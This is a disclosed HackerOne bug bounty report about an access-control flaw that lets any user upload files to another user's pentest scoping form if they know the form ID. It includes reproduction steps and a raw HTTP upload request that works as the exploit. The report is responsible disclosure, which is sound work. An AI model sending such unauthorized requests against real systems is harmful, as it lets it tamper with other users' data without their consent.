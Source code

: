 # Any user could upload attachments to pentest scoping form they don't have access to

## Report Details
- **Report ID**: 2450215
- **URL**: https://hackerone.com/reports/2450215
- **State**: Closed
- **Severity**: high
- **Submitted**: 2024-04-06T06:41:56.181Z
- **Disclosed**: 2024-05-15T16:36:35.956Z

## Reporter
- **Username**: hillybot_
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
hello team
in my recent testing i found that any users could upload attachments to any users pentest scoping form without having access to it as long as they have the scope id.
note: before you start you will require two account to test for this bug.
steps to reproduce:
1. create a sandbox
2. go to pentest an start an pentest form
3.copy the pentest form id from the url
4. log in to your second account
5. send the following request
==================================================================================================================
POST /attachments HTTP/2
Host: hackerone.com
Cookie: your cookies
-----------------------------22121373215470710503552942440
Content-Disposition: form-data; name="tracer"

989953fa-5635-43c9-b584-48736d224b15
-----------------------------22121373215470710503552942440
Content-Disposition: form-data; name="context_type"

PentestOpportunity
-----------------------------22121373215470710503552942440
Content-Disposition: form-data; name="file"; filename="does not have a option to change his own permission.png"
Content-Type: image/png

====================================================================================================================
6.from your previous account reload the scoping form and go to review and submit .
7. you will notice that the file have been successfully uploaded.

## Impact

business logic error
could attach malicious files to anyones scoping form.

## Attachments
No attachments
